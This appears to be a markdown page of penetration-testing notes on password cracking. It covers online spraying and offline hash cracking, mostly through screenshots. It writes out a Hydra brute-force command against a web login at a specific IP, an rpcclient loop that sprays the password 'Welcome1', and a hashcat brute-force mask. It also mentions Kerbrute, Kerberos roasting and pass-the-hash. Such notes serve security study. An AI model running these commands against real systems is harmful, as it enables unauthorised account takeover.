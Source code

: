# Cracking
Password cracking involves various techniques and tools to recover or crack passwords from hashed or encrypted formats.
It has two main branches, 1) Online cracking passwords/Spray. 2) Offline cracking hashes.

* Online Password Cracking: Online password cracking involves attempting to crack passwords in real-time by directly interacting with the target system. While this approach is less common and not always effective, tools like Hydra can be used to automate online password guessing. Hydra is a versatile tool that supports a range of protocols, such as SSH, FTP, HTTP, and more, enabling automated login attempts using a provided wordlist or dictionary.

* Offline Password Hash Cracking: Offline password cracking refers to the process of cracking password hashes obtained from a target system without actively interacting with the system itself. Tools like Hashcat and John the Ripper are commonly used for offline cracking. Hashcat, leveraging the power of GPUs, is known for its speed and supports various hash types and attack modes, including dictionary attacks, brute-force attacks, and rule-based attacks. John the Ripper, another popular tool, can handle diverse password hash formats and offers flexible attack modes.

## Creating wordlists
![Pasted image 20230509090220](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54c6eb3e-a0bd-4e30-ae44-2473c2703348)

## Online
Last route, hard to crack, easy to get blocked.

### hydra login webpage
```
hydra -l admin -P rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
### hydra ftp/ssh
![Pasted image 20230509090612](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0be7b78a-b10d-4edf-b1cb-5b28402c216b)

### crackmapexec

<img width="681" alt="Screen Shot 2022-08-06 at 10 16 27 AM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/7ec8a6d2-1cb5-41da-860e-03ccd188f8f0">

![Pasted image 20220805223125](https://github.com/dbissell6/Shadow_Stone/assets/50979196/07107201-2407-44ba-8e22-95d1f5a0f9ca)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/665cab1d-ed45-478b-8caa-9c8ef85f0ba6)


### rpcclient to password spray
![Pasted image 20230508093804](https://github.com/dbissell6/Shadow_Stone/assets/50979196/404d14eb-881b-48d0-8fec-7fc0147330fb)

```
for u in $(cat usernames.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
### kerbrute to spray

![Pasted image 20230508093946](https://github.com/dbissell6/Shadow_Stone/assets/50979196/37b9f071-4e6e-4e66-953d-bd116c0f04ca)


## Offline
Remember, if trying to crack a hash of something from a windows system, even if the cracking fails you might still be able to Pass The Hash.

### hashcat example hashes

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/41352270-138e-4883-9a67-6c67197c3b95)


### hashcat bruteforce length 8 digits+uppercase

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

### zip password
![Pasted image 20220805161528](https://github.com/dbissell6/Shadow_Stone/assets/50979196/eeed6c7b-2722-4d0c-aa1b-82c38390554a)

![Pasted image 20220805161535](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b48c3d5b-1cdc-41df-9346-302b54ba2d71)

### pfx
![Pasted image 20220805161711](https://github.com/dbissell6/Shadow_Stone/assets/50979196/30eb6a80-1283-430e-a0ad-723acc91a2d4)

### TGS ticket

![Pasted image 20230503093443](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e734a700-997d-4ce9-abe2-a9622c1c6988)

![Pasted image 20230503093654](https://github.com/dbissell6/Shadow_Stone/assets/50979196/6d0336e0-2db4-4de3-bc22-20e7b46e5df2)

### AS-REPRoastable hashes
![Pasted image 20230503112725](https://github.com/dbissell6/Shadow_Stone/assets/50979196/28d33815-bf5f-4b74-841b-7e51389c715a)

